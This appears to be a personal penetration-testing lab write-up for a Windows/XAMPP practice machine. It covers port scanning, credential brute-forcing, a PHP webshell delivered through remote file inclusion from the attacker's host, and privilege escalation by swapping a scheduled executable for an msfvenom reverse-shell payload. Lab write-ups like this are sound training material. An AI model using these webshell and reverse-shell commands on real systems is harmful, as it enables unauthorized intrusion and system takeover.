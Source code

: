 ### Enumeration
```
IP=192.168.198.53
sudo nmap -sU $IP
sudo nmap -p- -vv $IP
sudo nmap -p21,135,139,445,3306,4443,5040,7680,8080,49665,49666,49667,49668,49669 -A $IP
nc -nvv -w 1 $IP 1-1000 2>&1 | grep -v 'Connection refused'
```
### Ports
- Banner Grab: nc -nv $IP PORT
- 21
	- FileZilla ftpd 0.9.41 beta
- 135
	- RPC
- 139
	- RPC
- 445
	- smb
- 3306
	- mysql
- 4443
	- Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
	- XAMPP
- 5040
	- unknown
- 7680
	- pando-puub
- 8080
	- Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
	- XAMPP
- 49664
	- RPC
- 49665
	- RPC
- 49666
	- RPC
- 49667
	- RPC
- 49668
	- RPC
- 49669
	- RPC
### Foothold
- 21
	- ftp anonymous@$IP
		- failed
		- 220-FileZilla Server version 0.9.41 beta
		- 220-written by Tim Kosse (Tim.Kosse@gmx.de)
	- `hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt ftp://$IP
		- nothing
- RPC/ SMB
	- enum4linux $IP
		- nothing
	- Rid brute
		- crackmapexec smb IP -u guest -p "" --rid-brute
			- guest disabled
		- crackmapexec smb $IP --rid-brute
			- access denied
- 445
	- smbclient -N -L //$IP
		- access denied
	- nmap --script smb-vuln* -p135,139,445 $IP
		- nothing
- SQL
	- Mysql
		- `hydra -C /usr/share/seclists/Passwords/Default-Credentials/mysql-betterdefaultpasslist.txt mysql://$IP
			- Cant connect
- 4443
	- Default landing page
		- ![[Pasted image 20240816135407.png]]
	- Versions
	- Directory Brute force
		- dirsearch -u http://$IP
		- ffuf -w /usr/share/seclists/Discovery/DNS/n0kovo_subdomains.txt -u http://$IP/FUZZ
		- Found directories
	- Vulnerability scan
		- nikto -h http://$IP
- 8080
	- Default landing page
		- ![[Pasted image 20240816135426.png]]
	- Versions
	- Directory Brute force
		- dirsearch -u http://$IP:8080
			- /site
				- ![[Pasted image 20240816140141.png]]
				- LFI
					- http://192.168.198.53:8080/site/index.php?page=../dashboard/phpinfo.php
						- Loads php info
					- Random website: http://192.168.198.53:8080/site/index.php?page=test.php
						- ![[Pasted image 20240816140544.png]]
						- This says it includes php from other php sites
						- We can potentially host a php and execute commands?
							- `echo '<?php echo system($_GET["cmd"]); ?>' > basicwebshell.php
							- python3 -m http.server 80
							- http://192.168.198.53:8080/site/index.php?page=http://192.168.45.163:80/basicwebshell.php&cmd=whoami
							- ![[Pasted image 20240816140733.png]]
							- We can execute commands
							- Used base 64 PS rev shell
			- /dashboard
			- /Webalizer/
				- empty
			- /xampp/
				- empty
		- ffuf -w /usr/share/seclists/Discovery/DNS/n0kovo_subdomains.txt -u http://$IP/FUZZ
		- Found directories
	- Vulnerability scan
		- nikto -h http://$IP
### PE
#### Windows
- `slort\rupert
	- whoami /all
		- SeChangeNotifyPrivilege enabled
		- SeShutdownPrivilege, SeUndockPrivilege, SeIncreaseWorkingSetPrivilege, SeTimeZonePrivilege  disabled
	- Root drive directory
		- Backup
			- info.txt
				- Run every 5 minutes
				- `C:\Backup\TFTP.EXE -i 192.168.234.57 get backup.txt
			- TFTP.EXE
				- icacls TFTP.EXE
					- Authenticated Users:(I)(M)
					- We can modify file. Probably just put msfvenom exe
				- Payloads
					- msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.45.163 LPORT=21 -f exe > TFTP.EXE
						- mv TFTP.EXE TFTP_back.EXE
						- Now we wait
						- Connected but unresponsive
					- msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.163 LPORT=21 -f exe > TFTP.EXE
						- Gets shell as administrator
### Credentials
### Lessons Learned